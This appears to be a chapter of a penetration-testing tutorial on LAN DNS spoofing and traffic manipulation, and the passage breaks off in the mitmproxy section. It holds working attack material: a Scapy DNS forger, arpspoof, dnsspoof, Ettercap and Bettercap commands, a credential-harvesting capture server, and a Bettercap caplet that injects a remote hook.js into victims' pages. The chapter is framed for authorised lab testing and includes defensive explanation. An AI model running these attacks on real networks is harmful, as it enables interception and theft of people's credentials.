






This is Chapter 6 of the Network Attacks notebook. Chapter 5 taught you how to
become the man-in-the-middle on a switched LAN — how ARP has no authentication,
how poisoning two hosts' ARP caches routes their traffic through your machine,
and how to drive that with Ettercap and Bettercap. That chapter got you the
*position*. This one is about the *payoff*: once packets pass through you, what
can you actually do to them?

The answer breaks into two families of attack. The first is **forgery of name
resolution** — DNS spoofing — where you answer a victim's "where is
`bank.example`?" question with your own address before the real server can. The
second is **active manipulation of the bytes in flight** — rewriting responses,
injecting content into cleartext pages, and the historically devastating **SSL
stripping** attack that downgrades an `https://` link to plain `http://` so you
can read everything. Along the way you will learn, in unusual detail, *why the
modern web has largely closed the door on these attacks* — HSTS, preloading,
encrypted DNS, and certificate transparency are not abstractions here, they are
the exact mechanisms that make sslstrip return nothing on a real target — and
exactly where the door is still ajar.

Everything here is for **authorised testing only**: your own lab, a range you
built, or a network you have a signed contract to assess. Forging DNS answers or
tampering with another party's traffic on a network you do not own is a criminal
offence in almost every jurisdiction, independent of your intent. We build a lab
of virtual machines under your full control and attack only those.

---

## Why This Matters, and Who This Is For

Standing in the middle of a connection is worthless if the two ends are talking
in a language you cannot alter. Chapter 5 ended on exactly that cliff: you can
poison ARP all day, but if the victim opens a properly configured `https://`
site, all you see is opaque TLS. The techniques in this chapter are the classic
answers to "now what?" — and studying them teaches you the single most important
lesson in transport security: **encryption only protects you if the victim is
never tricked into not using it.** DNS spoofing and SSL stripping are, at heart,
attacks on that "if".

On an internal penetration test these techniques still matter enormously,
because internal networks lag the public web by a decade. Cleartext HTTP to
intranet apps, printers and appliances with self-signed certs, hosts that
resolve internal names over plain UDP DNS, legacy clients with no HSTS state —
these are everywhere behind the firewall, and DNS spoofing plus response
manipulation turns them into credential fountains. On the public web, the same
techniques mostly fail today, and understanding *precisely why* is what separates
an operator who wastes an engagement running sslstrip against a preloaded domain
from one who knows to pivot to internal targets.

This chapter assumes you have Chapter 5 (ARP spoofing, Ettercap, Bettercap) and
the Networking notebook chapter on DNS (Notebook 2, "DNS Completely Explained")
under your belt. You should be able to poison two hosts, read a packet capture,
and explain what an A record and a recursive resolver are. If any of that is
shaky, revisit those chapters — this one stacks directly on top of them.

By the end you will understand every layer at which a DNS answer can be forged,
be fluent with dnsspoof, Ettercap `dns_spoof`, Bettercap `dns.spoof`, mitmproxy
and sslstrip, be able to run a full poison → forge → strip → capture chain in a
lab, and be able to explain to a defender exactly which control stops each step.

---

## Part 1: The DNS Resolution Path — Every Place an Answer Can Be Forged

To forge name resolution you must know precisely where names are resolved, and
DNS resolution is a chain with many links. When a victim's browser needs the
address for `intranet.corp.local`, the request does not go straight to an
authoritative server. It travels a well-defined path, and **every hop on that
path is a place an attacker with the right position can inject a false answer.**

Here is the full local-to-global resolution path for a typical client:



Read that chain as a target list. Each stage answers the question "who decides
what `name` maps to?" and each has its own forgery technique:

| Resolution stage | Who controls it | How an on-path attacker forges it | Chapter coverage |
|---|---|---|---|
| `hosts` file (`/etc/hosts`, `C:\Windows\System32\drivers\etc\hosts`) | Local admin | Requires local write access, not a network attack | Mentioned, out of scope |
| OS stub resolver cache | Local OS | Cache poisoning needs local access | Out of scope |
| Query in flight to resolver (UDP/53) | Whoever is on-path | **Race the real resolver with a forged UDP response** — the core LAN attack | Parts 2–4 |
| Recursive resolver cache | The resolver operator | Kaminsky-style off-path cache poisoning | Part 9 (concept) |
| Authoritative zone | Domain owner | Registrar/zone compromise, subdomain takeover | Out of scope here |

The technique this chapter drills into is the third row: **the victim's query is
in flight across a network you control, and you answer it faster and first with a
lie.** This works because of a design decision baked into DNS in 1987 that has
haunted it ever since.

### Why classic DNS is forgeable: no authentication, first answer wins

A standard DNS query over UDP has four properties that together make on-path
forgery trivial:

1. **It is UDP.** There is no handshake, no connection state. The client fires a
   single datagram and waits for a single datagram back. Anyone who can put a
   packet on the wire with the right source address can answer.
2. **The only "authentication" is a 16-bit transaction ID plus the source port
   and the question.** If your forged response repeats the query's transaction
   ID, comes from the resolver's IP on the right port, and echoes the question
   section, the client accepts it. On-path, you can *read* the real query, so you
   know all of these values exactly — the 16-bit ID that stops off-path
   attackers is no obstacle at all when you can see it.
3. **First valid answer wins.** The client takes the first well-formed response
   that matches and stops listening. If your forged packet arrives before the
   real resolver's, yours is used and the genuine answer is discarded as a
   duplicate. On a LAN you are physically closer to the victim than the ISP
   resolver, so winning the race is easy.
4. **The answer is cached with a TTL you choose.** Your forged record carries a
   Time-To-Live you set. A large TTL means the victim keeps using your lie for
   hours without asking again.

**Security relevance (offense):** points 2 and 3 are the whole game. Off-path
attackers must guess the 16-bit ID and source port (the Kaminsky problem, Part
9). On-path — which is exactly where Chapter 5's ARP spoofing put you — you read
those fields off the real query and copy them, so forgery is deterministic, not
probabilistic.

**Security relevance (defense):** every mitigation later in this chapter attacks
one of these four properties — DNSSEC signs the answer (breaks #2), DoH/DoT
encrypts and authenticates the channel (breaks #1 and #2), and pinning/HSTS make
a forged address useless even if #3 succeeds.

The next parts turn this theory into working attacks, but the mental model to
hold throughout is simple: **you are not breaking DNS's cryptography, because
classic DNS has none. You are winning a footrace and telling a lie that no one
checks.**

---

## Part 2: Forging a Single Answer by Hand — Understanding the Packet

Before reaching for a tool, it is worth forging one DNS answer by hand so you
understand exactly what every tool automates. This also teaches the packet
structure you will later filter and detect on as a blue-teamer.

A DNS message has a fixed 12-byte header followed by question, answer,
authority, and additional sections. The fields that matter for forgery are:

| Field | Bytes | Role in forgery |
|---|---|---|
| Transaction ID | 2 | Must match the victim's query exactly |
| Flags | 2 | Set QR=1 (response), RD/RA as appropriate, RCODE=0 (no error) |
| Questions count | 2 | Usually 1 |
| Answer RRs count | 2 | ≥1 — your forged record |
| Question section | var | Copy the victim's question byte-for-byte |
| Answer section | var | Name (compression pointer `0xc00c`), type A, class IN, TTL, RDLENGTH=4, your IP |

Here is a minimal forger in Python using Scapy that reads real queries off the
interface and races a reply. Scapy is a packet-crafting library you install with
`pip install scapy`; it lets you build and send arbitrary packets layer by layer.

```python
#!/usr/bin/env python3
# forge_dns.py — lab-only on-path DNS forger. Authorised testing only.
from scapy.all import sniff, send, IP, UDP, DNS, DNSQR, DNSRR

SPOOF_DOMAIN = b"intranet.corp.local."   # the name we lie about (trailing dot!)
SPOOF_IP     = "192.168.56.10"           # our attacker/listener box

def handle(pkt):
    # Only react to DNS *queries* (qr==0) for our target name
    if not (pkt.haslayer(DNSQR) and pkt[DNS].qr == 0):
        return
    qname = pkt[DNSQR].qname
    if SPOOF_DOMAIN not in qname:
        return

    # Build a response that mirrors the query's identifying fields
    forged = (
        IP(src=pkt[IP].dst, dst=pkt[IP].src) /            # from the resolver, to victim
        UDP(sport=pkt[UDP].dport, dport=pkt[UDP].sport) / # 53 -> victim's ephemeral port
        DNS(
            id=pkt[DNS].id,        # copy the 16-bit transaction ID exactly
            qr=1, aa=1, qd=pkt[DNS].qd,
            an=DNSRR(rrname=qname, type="A", ttl=3600, rdata=SPOOF_IP),
        )
    )
    send(forged, verbose=0)
    print(f"[+] Forged {qname.decode()} -> {SPOOF_IP} (id={pkt[DNS].id})")

sniff(filter="udp port 53", prn=handle, store=0)
```

Run it (root, on the interface you are poisoning) and watch it answer:

```
$ sudo python3 forge_dns.py
[+] Forged intranet.corp.local. -> 192.168.56.10 (id=0x8f3a)
[+] Forged intranet.corp.local. -> 192.168.56.10 (id=0x4c11)
```

Each line is one query you raced. The critical insight is what you *did not* have
to do: you did not brute-force the transaction ID (`id=pkt[DNS].id` copies it),
you did not guess the source port (`sport=pkt[UDP].dport` mirrors it), and you
did not spoof from a plausible-but-wrong resolver (`src=pkt[IP].dst` uses the
exact address the victim queried). Being on-path collapses a hard off-path
problem into a copy operation.

**CTF angle:** many network-forensics CTF challenges hand you a pcap containing
both a real and a forged DNS answer for the same query and ask which the client
used. The answer is *the first one to arrive with a matching transaction ID*;
compare arrival timestamps and the `id` field. Building this forger by hand is
the fastest way to internalise which fields to compare.

The rest of the chapter uses purpose-built tools instead of this script, because
they handle edge cases (multiple record types, wildcard matching, keeping the
real answer suppressed) that a teaching script does not. But every one of them is
doing exactly what the code above does.

---

## Part 3: dnsspoof — The Minimalist Classic (from Scratch)

`dnsspoof` is part of the venerable **dsniff** suite by Dug Song. It is the
smallest possible DNS-forgery tool: point it at a hosts-style file of
name→address mappings, and it answers any matching query it sees on the wire.
Learning it first is valuable precisely because it does *only* the forgery and
nothing else — no ARP poisoning, no proxying — so the responsibilities are clear.

### What it is and installing it

dsniff bundles several classic MITM utilities: `dnsspoof`, `arpspoof`,
`dsniff` (a password sniffer), `urlsnarf`, `mailsnarf`, and more. On Kali:

```bash
sudo apt update
sudo apt install -y dsniff
dnsspoof -h        # confirm it runs; prints usage
```

`dnsspoof` does **not** poison ARP itself. It assumes traffic is already reaching
your interface — which means you run ARP spoofing separately (Chapter 5) so the
victim's DNS queries pass through you first. This separation of concerns is the
whole Unix philosophy of dsniff.

### The hosts file and core workflow

Create a mappings file. The format is identical to `/etc/hosts` but is read as
"if a query matches this name, answer with this IP":

```bash
cat > /tmp/spoof.hosts <<'EOF'
192.168.56.10   intranet.corp.local
192.168.56.10   *.corp.local
192.168.56.10   updates.vendor.example
EOF
```

The `*` wildcard matches any subdomain — useful when you do not know the exact
hostname the victim will request. Now enable forwarding and start the pieces:

```bash
# 1. Allow the box to forward the victim's other traffic so nothing breaks
sudo sysctl -w net.ipv4.ip_forward=1

# 2. Poison ARP so the victim's traffic flows through us (Chapter 5)
sudo arpspoof -i eth0 -t 192.168.56.20 192.168.56.1 &   # victim <- we are gateway
sudo arpspoof -i eth0 -t 192.168.56.1 192.168.56.20 &   # gateway <- we are victim

# 3. Forge DNS for names in the file, on the poisoned interface
sudo dnsspoof -i eth0 -f /tmp/spoof.hosts host 192.168.56.20 and udp port 53
```

Flag by flag:

| Flag | Meaning |
|---|---|
| `-i eth0` | Interface to listen/inject on |
| `-f /tmp/spoof.hosts` | File of name→IP mappings to forge |
| `host 192.168.56.20 and udp port 53` | A **BPF filter** (Berkeley Packet Filter) limiting which packets dnsspoof reacts to — here, only DNS to/from the victim. Filtering keeps you from answering the whole subnet and being noisy. |

Sample output as the victim browses:

```
$ sudo dnsspoof -i eth0 -f /tmp/spoof.hosts host 192.168.56.20 and udp port 53
dnsspoof: listening on eth0 [host 192.168.56.20 and udp port 53]
192.168.56.20.51224 > 192.168.56.1.53:  43210+ A? intranet.corp.local
192.168.56.20.61002 > 192.168.56.1.53:  9llo1+ A? updates.vendor.example
```

Each line is a query dnsspoof just answered with the forged address. On the
victim, `nslookup intranet.corp.local` now returns `192.168.56.10` — your box.

**Pitfall:** if you forget step 2 (ARP poisoning) or step 1 (`ip_forward`),
dnsspoof sees nothing (traffic never reaches you) or the victim loses all other
connectivity (you black-hole it). dnsspoof forging + ARP poisoning + forwarding
are three separate responsibilities; all three must be running.

**Pitfall — the real answer still arrives.** dnsspoof does not block the genuine
resolver's reply; it only tries to beat it. On a fast local network you usually
win, but if the real resolver is also on the LAN and very close, you can lose the
race intermittently, producing flaky spoofing. Ettercap and Bettercap handle this
more robustly, which is why they are the practical choice (Parts 4–5).

---

## Part 4: Ettercap's dns_spoof Plugin (from Scratch)

Chapter 5 taught Ettercap for ARP poisoning. Ettercap also ships a `dns_spoof`
plugin that folds DNS forgery into the same tool that is already doing your
poisoning — so one process handles both position and payload. This is the
robust, batteries-included version of Part 3.

### Refresher on Ettercap, then the DNS piece

Ettercap is a suite for MITM on a LAN: it discovers hosts, ARP-poisons chosen
targets, and runs plugins against the intercepted traffic. It has a text UI
(`-T`), a curses UI (`-C`) and a GTK GUI. Install (usually preinstalled on Kali):

```bash
sudo apt install -y ettercap-text-only    # CLI build
ettercap --version
```

The DNS mappings live in Ettercap's config file, historically
`/etc/ettercap/etter.dns`. Edit it to add your forged records:

```bash
sudoedit /etc/ettercap/etter.dns
```

```
# etter.dns — Ettercap DNS spoof table. Authorised lab use only.
intranet.corp.local     A   192.168.56.10
*.corp.local            A   192.168.56.10
updates.vendor.example  A   192.168.56.10
# You can also forge PTR (reverse) and other types:
10.56.168.192.in-addr.arpa  PTR  intranet.corp.local
```

Each line is `name  TYPE  value`. `A` records forge IPv4, `AAAA` forge IPv6,
`PTR` forge reverse lookups. The `*` wildcard behaves like dnsspoof's.

### Running the poison + spoof together

```bash
sudo ettercap -T -q -i eth0 -M arp:remote -P dns_spoof /192.168.56.20// /192.168.56.1//
```

Flag by flag:

| Flag | Meaning |
|---|---|
| `-T` | Text UI |
| `-q` | Quiet — do not print every captured packet, only events |
| `-i eth0` | Interface |
| `-M arp:remote` | MITM method = ARP poisoning; `:remote` also captures traffic to hosts *beyond* the gateway (i.e. internet-bound), essential for spoofing external names |
| `-P dns_spoof` | Load the `dns_spoof` plugin |
| `/192.168.56.20//` | Target 1 (victim). Ettercap target syntax is `/MAC/IPv4/IPv6/ports`; empty fields = any |
| `/192.168.56.1//` | Target 2 (gateway) |

Sample output:

```
ettercap 0.8.3 copyright 2001-2020 Ettercap Development Team

Listening on eth0... (Ethernet)
36 hosts added to the hosts list...
ARP poisoning victims:
 GROUP 1 : 192.168.56.20 08:00:27:aa:bb:cc
 GROUP 2 : 192.168.56.1  08:00:27:11:22:33
Activating dns_spoof plugin...
dns_spoof: A [intranet.corp.local] spoofed to [192.168.56.10]
dns_spoof: A [updates.vendor.example] spoofed to [192.168.56.10]
```

Every `dns_spoof: A [...] spoofed to [...]` line is one forged answer. Because
Ettercap is simultaneously the poisoner and the forger, it reliably sees queries
first and answers them, avoiding dnsspoof's race flakiness.

**Red team usage:** `*.corp.local → your box` combined with a fake internal
portal (Part 6) is a classic internal-network credential-harvesting setup — the
victim navigates to what they believe is the intranet SSO page and types their
domain password into your listener.

**Pitfall — `arp:remote` matters for external names.** Without `:remote`,
Ettercap only poisons traffic between the two targets and may not intercept the
victim's queries destined for an upstream resolver, so external-name spoofing
silently fails. If your spoof works for internal names but not `updates.vendor.example`,
this flag is usually why.

---

## Part 5: Bettercap — dns.spoof and the Modern Toolkit (from Scratch)

Bettercap is the modern successor to Ettercap: a single Go binary with an
interactive session, composable modules, a web UI, and a scripting system
(caplets). Chapter 5 introduced it for ARP poisoning; here we use its `dns.spoof`
module, which is the tool most operators reach for today.

### Install and interface recap

```bash
sudo apt install -y bettercap        # Kali package
# or the latest release:
# sudo bettercap -eval "version"
sudo bettercap -iface eth0
```

You land in an interactive prompt (`192.168.56.0/24 > `). Bettercap is
module-driven: you configure a module with `set`, then turn it `on`. Modules
relevant here:

| Module | Job |
|---|---|
| `net.probe` / `net.recon` | Discover hosts on the subnet |
| `arp.spoof` | ARP poison targets (Chapter 5) |
| `dns.spoof` | Forge DNS answers |
| `http.proxy` / `https.proxy` | Transparent proxy for content injection / stripping (Part 6) |
| `net.sniff` | Passive credential/URL sniffing |

### Configuring dns.spoof

```
# inside the bettercap session:
set arp.spoof.targets 192.168.56.20
arp.spoof on

set dns.spoof.domains intranet.corp.local, *.corp.local, updates.vendor.example
set dns.spoof.address 192.168.56.10
set dns.spoof.all true
dns.spoof on
```

Option by option:

| Option | Meaning |
|---|---|
| `dns.spoof.domains` | Comma-separated names (wildcards allowed) to forge |
| `dns.spoof.address` | The IP to answer with (your listener) |
| `dns.spoof.all` | If `true`, spoof **every** matching request even ones not obviously browser-driven; also answers queries seen for any host, not just the poisoned target — use carefully, it is noisy |
| `dns.spoof.ttl` | TTL to stamp on forged answers (default 1024s) |

Sample session output:

```
192.168.56.0/24 > dns.spoof on
[sys.log] [inf] dns.spoof enabling forwarding
[sys.log] [inf] dns.spoof started
[dns.spoof] sending spoofed DNS reply for intranet.corp.local (->192.168.56.10) to 192.168.56.20:51224
[dns.spoof] sending spoofed DNS reply for updates.vendor.example (->192.168.56.10) to 192.168.56.20:61002
```

### Doing it all in one line with a caplet

A **caplet** is a script of Bettercap commands (`.cap` file) you can run
non-interactively — the equivalent of Ettercap's config plus flags, versioned and
repeatable:

```
# spoof.cap — authorised lab use only
set arp.spoof.targets 192.168.56.20
set dns.spoof.domains *.corp.local
set dns.spoof.address 192.168.56.10
arp.spoof on
dns.spoof on
net.sniff on
```

```bash
sudo bettercap -iface eth0 -caplet spoof.cap
```

**Blue team usage:** Bettercap's own traffic is detectable. `dns.spoof` emits
answers whose source MAC is the attacker's, not the gateway's — dynamic ARP
inspection and a switch that logs MAC/IP bindings will flag the mismatch.
Bettercap also sends gratuitous ARP frequently; `arpwatch` alerts on the
flip-flopping MAC for the gateway IP. We cover this fully in Part 11.

---

## Part 6: From Forged Address to Owned Session — Traffic Manipulation

Forging a DNS answer only *redirects* the victim to your box. The value comes
from what your box then serves them, or from how you rewrite the traffic you are
already relaying. This is **active traffic manipulation**, and it spans a
spectrum from crude to surgical.



There are three main manipulation strategies, in increasing sophistication:

1. **Serve your own content** at the forged address (a cloned login page). Simple,
   but the victim may notice a broken/plain page or a TLS warning.
2. **Transparently proxy** the real site and inject into or rewrite its responses
   (Bettercap `http.proxy` + a JS-injection caplet, or mitmproxy scripting). The
   victim sees the real content plus your additions.
3. **Strip the encryption** so the whole session is cleartext you read and modify
   at will (SSL stripping, Part 8).

### Strategy 1: serve a cloned page

After forging `portal.corp.local → 192.168.56.10`, run a listener that serves a
copy of the real login page whose form posts to you:

```bash
# Clone the real page once (from a box that can reach it):
wget --mirror --convert-links --page-requisites -P /tmp/portal https://portal.corp.local/

# Edit the form action to point at your capture endpoint, then serve it:
cd /tmp/portal/portal.corp.local
python3 -m http.server 80
```

A tiny capture endpoint logs whatever is posted:

```python
# capture.py — logs posted credentials, then redirects to the real site
from http.server import BaseHTTPRequestHandler, HTTPServer
class H(BaseHTTPRequestHandler):
    def do_POST(self):
        n = int(self.headers.get('Content-Length', 0))
        body = self.rfile.read(n).decode(errors='replace')
        print(f"[CREDS] {self.client_address[0]} {self.path} :: {body}")
        self.send_response(302)
        self.send_header('Location', 'https://portal.corp.local/')  # bounce to real
        self.end_headers()
HTTPServer(('0.0.0.0', 80), H).serve_forever()
```

```
$ sudo python3 capture.py
[CREDS] 192.168.56.20 /login :: username=jdoe&password=Winter2026!
```

The catch: if the victim typed `https://portal.corp.local`, their browser
expects TLS. You either present a self-signed cert (browser warning — many users
click through on internal sites, which is exactly why internal targets are soft)
or you rely on them typing/clicking a plain `http://` link. That "if they use
http" caveat is the entire subject of SSL stripping (Part 8).

### Strategy 2: transparent proxy + content injection

Rather than cloning, relay the real site and inject. Bettercap's `http.proxy`
with a JS-injection caplet appends a `<script>` to every HTML response passing
through:

```
# inject.cap
set http.proxy.injectjs http://192.168.56.10/hook.js
http.proxy on
set arp.spoof.targets 192.168.56.20
arp.spoof on
```

Every plain-HTTP page the victim loads now carries your `hook.js` — a BeEF hook,
a keylogger, or a credential-form overlay. **This only works on cleartext HTTP**;
TLS bytes are opaque to the proxy unless you also strip or terminate them.

---

## Part 7: mitmproxy — Surgical Interception and Rewriting (from Scratch)

For precise, scriptable manipulation, `mitmproxy` is the professional's tool. It
is an interactive HTTPS proxy that can intercept, inspect, replay and rewrite
flows, with a Python scripting API (`addons`) for automated transforms. Unlike
sslstrip it does not downgrade TLS — instead it **terminates** TLS with its own
CA, which the victim must trust (or be tricked into trusting).

### What it is and installing it

```bash
sudo apt install -y mitmproxy      # ships mitmproxy (TUI), mitmweb (web UI), mitmdump (headless)
mitmproxy --version
```

The three front-ends share one engine:

| Binary | Interface |
|---|---|
| `mitmproxy` | Interactive terminal UI |
| `mitmweb` | Browser-based UI |
| `mitmdump` | Scriptable, non-interactive (tcpdump-like) |

### Transparent mode with our MITM position

When you are already the man-in-the-middle (ARP + DNS spoofed), run mitmproxy in
